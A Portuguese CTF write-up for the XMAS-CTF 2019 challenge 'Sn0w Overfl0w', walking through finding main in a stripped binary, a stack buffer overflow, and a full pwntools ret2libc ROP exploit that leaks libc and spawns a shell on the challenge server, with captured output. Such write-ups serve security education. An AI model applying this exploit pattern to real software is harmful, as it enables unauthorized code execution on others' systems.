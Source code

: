 # Writeup "Sn0w Overfl0w" - XMAS-CTF 2019
## Categories: pwn, Return Oriented Programming (ROP), Buffer Overflow (BOF), leaking libc

A challenge nos oferece apenas um binário que o nomearemos como "chall".

Executando o binário, obtemos um prompt para "Helloooooo, do you like to build snowmen?" como demonstrado a seguir:
fex0r:~/.ctf/xmas-ctf/sn0w-overfl0w# ./chall                                                
Helloooooo, do you like to build snowmen?

Visualizando as chamadas para libraries que o binário faz, podemos reparar que ele executa um strcmp do nosso input com o texto "yes":
fex0r:~/.ctf/xmas-ctf/sn0w-overfl0w# ltrace ./chall
setvbuf(0x7fbbf81f3a00, 0, 2, 0)                                                                             = 0
setvbuf(0x7fbbf81f4760, 0, 2, 0)                                                                             = 0
puts("Helloooooo, do you like to build"...Helloooooo, do you like to build snowmen?)                         = 42
read(yes, "yes\n", 100)                                                                                     = 4
strcmp("yes\n", "yes")                                                                                       = 10
puts("Mhmmm... Boring..."Mhmmm... Boring...)

Na verdade, teriamos que introduzir o "yes" de forma que o caractere newline ("\n") nao entrasse no input, de forma que o strcmp retornasse true, porém todo esse processo demonstrou-se desnecessário ao analisarmos o binário com GDB e descobrirmos um buffer overflow no binário.

## Binário Stripped
Como se trata de um binário stripped, teremos que achar a função main manualmente, podemos fazer isso da seguinte forma:
```
1. fex0r:~/.ctf/xmas-ctf/sn0w-overfl0w# gdb ./chall
2. gef➤  info file
   Symbols from "/home/fex0r/.ctf/xmas-ctf/sn0w-overfl0w/chall".
   Local exec file:
           `/home/fex0r/.ctf/xmas-ctf/sn0w-overfl0w/chall', file type elf64-x86-64.
           Entry point: 0x401070
           0x00000000004002a8 - 0x00000000004002c4 is .interp
           0x00000000004002c4 - 0x00000000004002e4 is .note.ABI-tag
           .................. ................. .................
3. gef➤  b *0x401070
   Breakpoint 1 at 0x401070
4. gef➤  r
	Starting program: /home/fex0r/.ctf/xmas-ctf/sn0w-overfl0w/chall                                                              	                                         
	
	Breakpoint 1, 0x0000000000401070 in ?? ()
5. gef➤  x/20i $rip
   => 0x401070:    endbr64
      0x401074:    xor    ebp,ebp
      0x401076:    mov    r9,rdx
      0x401079:    pop    rsi
      0x40107a:    mov    rdx,rsp
      0x40107d:    and    rsp,0xfffffffffffffff0
      0x401081:    push   rax
      0x401082:    push   rsp
      0x401083:    mov    r8,0x401280
      0x40108a:    mov    rcx,0x401210
      0x401091:    mov    rdi,0x401167
      0x401098:    call   QWORD PTR [rip+0x2f52]        # 0x403ff0
      0x40109e:    hlt
      0x40109f:    nop
      0x4010a0:    endbr64
      0x4010a4:    ret
      0x4010a5:    nop    WORD PTR cs:[rax+rax*1+0x0]
      0x4010af:    nop
      0x4010b0:    mov    eax,0x404040
      0x4010b5:    cmp    rax,0x404040
```
Ok, o endereço do começo de main() é 0x401167. Mas como exatamente descobrimos isso?
No passo 2 e 3, obtemos e setamos um breakpoint para o entry point do binário, oque nada mais é que o ponto de entrada do programa, ali encontram-se as primeiras instruções de um binário, pois bem o push do endereço de main para __libc_start_main.
__libc_start_main será setado posteriormente, enquanto isso, podemos apenas assumir, que a chamada feita em 0x401098 se trata de uma "call __libc_start_main" e receberia como argumento 0x401167, o qual é mov'ido para o primeiro general purpose register $rdi a fim de ser usado como argumento para a função __libc_start_main. Logo, 0x401167 é o endereço de início da nossa função main.

## Entendendo o Execution Flow do programa e Identificando Buffer Overflow
Com a função main em mãos, podemos analisar ela via ghidra.
A função main decompilada se comporta da seguinte maneira:
```
undefined8 FUN_00401167(void)

{
  int iVar1;
  char local_12 [10];
  
  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stdout,(char *)0x0,2,0);
  puts("Helloooooo, do you like to build snowmen?");
  read(0,local_12,100);
  iVar1 = strcmp(local_12,"yes");
  if (iVar1 == 0) {
    puts("Me too! Let\'s build one!");
  }
  else {
    puts("Mhmmm... Boring...");
  }
  return 0;
}
```
É explícita a existência de um buffer overflow ao ler 100bytes de dados para uma variavel que suporta apenas 10.
Possuindo um BOF no binário, podemos pular para a parte da exploração, porem antes disso, precisamos checkar as proteções que o binário possúi:
```
fex0r:~/.ctf/xmas-ctf/sn0w-overfl0w# checksec ./chall 
[*] '/home/fex0r/.ctf/xmas-ctf/sn0w-overfl0w/chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
"NX Enabled", No Execute esta ativado, isto é, a stack inteira se torna read-only, impossibilitando o clássico ataque de buffer-overflow consistindo na "alocação" e chamada do shellcode na stack.
A fim de burlarmos tal proteção, faremos um ataque do tipo Return Oriented Programming (ROP).

Nosso exploit final ficará da seguinte forma:
```
from pwn import *

p = remote("challs.xmas.htsp.ro", 12006)
elf = ELF("./chall")
libc = ELF("libc-2.27.so")
rop = ROP(elf)

pad = "A"*(18)
puts = elf.plt["puts"]
libc_start_main = elf.symbols["__libc_start_main"]
pop_rdi = (rop.find_gadget(['pop rdi', 'ret']))[0]
RET = (rop.find_gadget(['ret']))[0]

info("puts@plt => "+hex(puts))
info("__libc_start_main => "+hex(libc_start_main))
info("pop rdi => "+hex(pop_rdi))

rop = pad + p64(pop_rdi) + p64(libc_start_main) + p64(puts) + p64(0x401070)
p.sendlineafter("snowmen?", rop)
p.recvline()
p.recvline()
leaked__libc_start_main = u64(p.recvline().strip().ljust(8, "\x00"))
info("Leaked __libc_start_main@GLIBC => "+hex(leaked__libc_start_main))

libc.address = leaked__libc_start_main - libc.sym["__libc_start_main"]
libc_base = libc.address
info("libc base => "+hex(libc_base))

system = libc.sym["system"]
str_bin_sh = next(libc.search("/bin/sh"))

info("/bin/sh => %s " % hex(str_bin_sh))
info("system => %s " % hex(system))

xpl = pad + p64(RET) + p64(pop_rdi) + p64(str_bin_sh) + p64(system)
p.sendlineafter("snowmen?", xpl)

p.interactive()
```

## Pwning!!
```
fex0r:~/.ctf/xmas-ctf/sn0w-overfl0w# python xpl.py      
[+] Opening connection to challs.xmas.htsp.ro on port 12006: Done
[*] '/home/fex0r/.ctf/xmas-ctf/sn0w-overfl0w/chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/home/fex0r/.ctf/xmas-ctf/sn0w-overfl0w/libc-2.27.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Loading gadgets for '/home/fex0r/.ctf/xmas-ctf/sn0w-overfl0w/chall'
[*] puts@plt => 0x40102c
[*] __libc_start_main => 0x403ff0
[*] pop rdi => 0x401273
[*] Leaked __libc_start_main@GLIBC => 0x7fb0ba683ab0
[*] libc base => 0x7fb0ba662000
[*] /bin/sh => 0x7fb0ba815e9a 
[*] system => 0x7fb0ba6b1440 
[*] Switching to interactive mode

Mhmmm... Boring...
$ cat flag.txt
X-MAS{700_much_5n0000w}
```
